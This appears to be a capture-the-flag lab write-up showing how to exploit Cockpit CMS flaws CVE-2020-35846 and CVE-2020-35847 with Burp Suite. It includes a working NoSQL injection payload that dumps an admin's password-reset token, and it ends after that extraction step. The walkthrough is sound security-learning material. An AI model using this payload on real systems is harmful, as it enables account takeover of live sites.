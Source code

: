### Burpsuite
We will use this link[1] as our guidance. Quick read of the room, we know with this we can do
1. Username enumeration
2. Reset password

And now *lets do it*
1. Username enumeration - CVE-2020-35846
	In most cases, there is always a username of `admin` in anything. So lets find out if we have admin user.
	- Start up your Burpsuite
	- Activate proxy on your browser
	- Type in username:password. I did `admin:0`
	- Burp will catch the `post` request to `/auth/check`
	- Send the `post` request to `Repeater`
	Now we have multiple option we can use to try extract username. Play around and see if you can find which one working by yourself. What I use is number 3, using MongoLite variable
	![[img/Burp Result - MongoDB.png]]
	With this, Now we have 4 username. Lets use Admin and reset the password
2. Reset Password - CVE-2020-35847
	Reading through our source [1], the website need a reset password token in order to resetting password. Lets extract token and try to reset `admin` password
	- Go back to login page
	- Login with `admin:0`
	- Catch login `post` request with burp and send it to repeater
	- In line 1, change it to `POST /auth/newpassword HTTP/1.1`
	- On line 14 or 15 where there is our login information, replace all as shown below
		From
		```
		{
			"auth":{
				"user":"admin",
				"password":"0"
			},
			"csfr":"eyJ0eXAiOiJKV1QiLCJhbGciOi..................."
		}
		```
		To
		```
		{
			"token":
			{
				"$func":"var_dump"
			}
		}
		```

	What we did is we dump everything related to `token` belong to the admin. If succeed our extraction, you should have a text start with `string(48)`. Save it somewhere starting from `rp-fe` till the very end
		
	![[img/Burp Result - Extract Token Reset.png]]
		